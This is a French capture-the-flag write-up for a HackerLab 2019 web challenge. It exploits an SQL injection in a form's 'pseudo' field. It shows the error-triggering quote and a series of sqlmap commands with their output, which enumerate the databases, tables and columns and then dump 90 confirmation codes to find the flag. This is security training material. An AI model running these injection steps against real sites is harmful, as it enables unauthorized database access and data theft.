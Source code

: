 * * *
# Porte du couvent 2
> (Web, 400 points )
---
## Challenge :
> http://qualif.hackerlab.bj/porte_couvent/

En accédant au lien du challenge, on se voit présenter un formulaire :

<img src="Images/porte-couvent-2.png">

On remarque qu'en mettant le **pseudo** d'un participant de la *phase présentielle* du **hackerlab**, on arrive à retrouver son **code de confirmation**. Essayons de voir si le formulaire est vulnérable à l'attaque d'injection **SQL**. L'idée derrière est d'arriver à afficher tous les codes de confirmation stockés dans la base données . Pour le faire, mettons le caractère << *'* >> dans le champ ```pseudo``` du formulaire. La réponse obtenue en retour est une erreur **PHP** :

```
Warning: mysqli_fetch_array() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/porte_couvent/index.php on line 64
``` 

Cette **erreur** est une preuve évidente d'une faille d'injection **SQL**. Pour mener à bien notre attaque, nous ferions usage du célèbre outil d'automatisation des injections **SQL**, qui est **sqlmap (https://github.com/sqlmapproject/sqlmap)**

```console
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

available databases [5]:                                                                                                                            
[*] information_schema
[*] mysql
[*] performance_schema
[*] qualif
[*] sys
```
De cette sortie, on repère une base de données ```qualif```. Tentons d'afficher les différentes tables de cette ```BD```.

```console 
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" -D qualif --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Database: qualif
[1 table]
+-------------------+
| winners_hackerlab |
+-------------------+
```

Nous repérons une table ```winners_hackerlab```. Essayons maintenant d'afficher toutes les colonnes de cette table. 

```console
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" -D qualif -T winners_hackerlab --column
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.4#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[22:08:46] [INFO] fetching columns for table 'winners_hackerlab' in database 'qualif'
[22:08:46] [INFO] used SQL query returns 7 entries
[22:08:46] [INFO] resumed: 'id','int(11)'
[22:08:46] [INFO] resumed: 'username','varchar(50)'
[22:08:46] [INFO] resumed: 'telephone','varchar(50)'
[22:08:46] [INFO] resumed: 'code','varchar(50)'
[22:08:46] [INFO] resumed: 'dateinscription','varchar(50)'
[22:08:46] [INFO] resumed: 'ip_adress','varchar(100)'
[22:08:46] [INFO] resumed: 'country','varchar(50)'
Database: qualif                                                                                                                                    
Table: winners_hackerlab
[7 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| code            | varchar(50)  |
| country         | varchar(50)  |
| dateinscription | varchar(50)  |
| id              | int(11)      |
| ip_adress       | varchar(100) |
| telephone       | varchar(50)  |
| username        | varchar(50)  |
+-----------------+--------------+
```

Après ceci, nous observons la colonne ```code```, stockant sûrement la liste de tous les codes de confirmation. Pour l'afficher, il faudra exécuter cette dernière commande : 

```console
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" -D qualif -T winners_hackerlab -C code --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Database: qualif
Table: winners_hackerlab
[90 entries]
+------------------------------------------+
| code                                     |
+------------------------------------------+
| 034c35ef150fb7222104241920af11932f577e56 |
| 03fbebf8f835fd49230298f5a6d64ea4f3a4ec77 |
| 047009429348ee1b9753221224bd945acb8c2513 |
| 08047c09adf1bdfe9863769ff6c7a9fa96061598 |
| 0829b6e746be6de8e75663ffc245229ed52009ce |
| 08e599b71a178144c3831baf43663b7ba5c370e6 |
| 0cab4911c233129e99623d0c94185c9b33c63e9f |
| 0ea90b79f0c5f538e5d20c3c822732b3c459b16c |
| 0ecf604505966d1a92152f4de88529b8da5de4cb |
| 0f8ffc344cc7e78eccca3d5b148db23350d62377 |
| 10d2bca5afbab47ff29ada0cee681a43334e453c |
| 111a1e5243a431b9f9b470955c71505478e609b3 |
| 1136e921e3b4fc206e48b4cc3b6f814cf2ec3b45 |
| 129bb7c6d2b9cd88cdfcdaa3a3fbdbf43b8ce311 |
| 152f168df6015696b3f4f2b0ed0f88f51a3b0cf4 |
| 1ebe56677531b07b8572592ddb40c5171d2b994e |
| 1fc23505f7a76a45c11e649d6a7581bc6bbda0d7 |
| 28502b19e86c62a0e5744209607a2b6ae5299d63 |
| 29b10c8ccdb7f1ce08975325b26e7af26e035fbf |
| 2ab204e29d06fcb3102ae5e0a66980dd2164f6fd |
| 2fd3dff05a903e019d4947881a7d9cd4ad70d68f |
| 31fb5ad20a46b84ec11470cb643c54bab0e8806b |
| 336765250f1fa7e6ee8d190c23f50bc0ac1507ae |
| 37a14ddb3bca53d2c370eb1c055c93f31fb63a48 |
| 39afb2b88f925fc63782b04e0b427905e7381470 |
| 3ab91c1c21ae82122af5f3ace969b39b945028ec |
| 3efd89d2b481f95c8be45f8bbc7cc910c5ea334c |
| 400df6dead2c888f9a3f990f6c4becdf0b04a239 |
| 45b9140f104743ffb18e68df9a8f414badd3f487 |
| 471db6cf5589220de11e6c1b94bde1df530b87e1 |
| 4a200710083045c4f3b9ae8172d2ec8082ae86b5 |
| 4b9112835643370da619de60026d2123add08c52 |
| 517114303910103d05a7f55874f756f1ee1effbd |
| 56d4ccec5a5add37b1b1fb33deaafa12cf3dff19 |
| 5704926a7d84c0347974267227bc1d1a22dcd57c |
| 57ad53b45f5c0f65f2a34ac65d0f84182d7c55a5 |
| 5a494a2785eab48c4a72496dbeacda514f48731c |
| 5ad4daca7b683a90542ac4777f159607b8eab06f |
| 5eafb4710ce9d5f0f150b3533055986677d477b2 |
| 5ef94235bf68c4fb662cefe17322ece5f83a9e96 |
| 61ebd70ebfa1ee1020143b25f55d338897aae84d |
| 67d16817c7f88810eab1bbd5f4867dd4802e375e |
| 67e71f784f9ed73613ac5203da8ae08cc990d1fb |
| 6ad97c8d6861a9e3806289c85705a4213a8230b0 |
| 6c294d7cda8a9ddfd8b4e90ea0360df377df8189 |
| 6dba0d1a1d591dcc46a93500c227a04f9a9437c4 |
| 70ca18ae2c9b29430f85d8a9c252a280d53f4ea9 |
| 715289ecbf9075341907e047df037083d55a50e4 |
| 78af24295e2c85a163d29647f17bc0b0d14067b3 |
| 7e0e92a8cfec278aa46359b430c9d2a16c0728ab |
| 7fbe783bfa13a75f1ea9394174fe248975754451 |
| 83346a1106f4d93306c13959a6c7de065137b1bd |
| 86ec9f687367917d88fe68b95944a3f4d057583e |
| 88e7d05d7ba21ad33f19caffaf57d4fdef9368a3 |
| 8cc97920bb3fc2359d698c992c8fb479afaeffd0 |
| 8ee1f8fde11c976f3f23a0b0ecb858902bf228aa |
| 8f9713601e5cdbccc498c1863c724178d2c67a7c |
| 94bfb24708524344a0372cf501ee4b947be7b4f3 |
| 99a84e9659834838ace2b349530719a798083ee9 |
| 9b9e4377418bad9cc2c57f1e9a87af5574f14604 |
| 9ddad9c122d1b28e505ba8a40c1e3e7bc7160e59 |
| 9eb7d658d9c8733608f0b8156d6deb3ee280136f |
| 9fea22b6516d7cbc5f3447ecb1891f776911bb65 |
| a16261b74db96ae8f63fd30fabe7051534d62c58 |
| a7f6976c8db7f36031e7d965cef10323978f0e39 |
| ab7ebbb4d42bce0b30d8b41cb1052827b67a2462 |
| ac55110d368ac367eeccae56065f2047ce995e21 |
| ac6413e06ddbcd73b3cd00a9ed1dcba822cae4b1 |
| b0412c35241d02988793f6082b61c2f31fa04ab4 |
| bc40b583b4b43f2d1e940644fa2d6e501fbb4863 |
| c0e4be83a73938af82ebdd52237c361875775998 |
| c0ed09712039feddf47f2079699e0744239ac573 |
| c12635b463a1358a83d6632f228d644a0009a9c7 |
| c1bf66c43ec39e6e33b07403c72198e3908bce0f |
| c4d94d61e0445c050c98e8b365ffd05181751f40 |
| c64f1b18c1bd17042a4cb35c0575e9a72fd14582 |
| c861b37e27d56145a0296588bcacbecf065d7de8 |
| c91b84766c25c6f92d9043e0b5dff9c0787daf37 |
| cb81aa9b474b4596f99460a3026d367f4d4f92b8 |
| CTF_SQL_DANGEROUS_INJECTOR_              |
| d0481752e9909fed51a194bf6b7ad56c4cb1a29b |
| d1342052a704c5a00ecd76b4a97abc8094061ed1 |
| d4c55da03c46a8f3097ced9472d3421406bbaec5 |
| ed3cec74ea647312f371a09327b91141c6c2b1e3 |
| edf6bd4ce755a71b0ab1b50bf37f7e2616091ffa |
| efbde416e923ea36d2095596866804cbba9878e8 |
| f2d9ecb1c7db2989d18432bf677367c98637118e |
| f776e80439ea86c27cb0ef3cc4d9590b10daa8ab |
| f7d370c50384d4dbd99aef9c6703aa2c4dc4794b |
| ff192c4f2145fa77f2b1b2dd7021f2c9a3421f00 |
+------------------------------------------+
```
 
Parmi cette liste de code de confirmation, on fini par retrouver notre ```flag```.

```Flag ```: **CTF_SQL_DANGEROUS_INJECTOR**
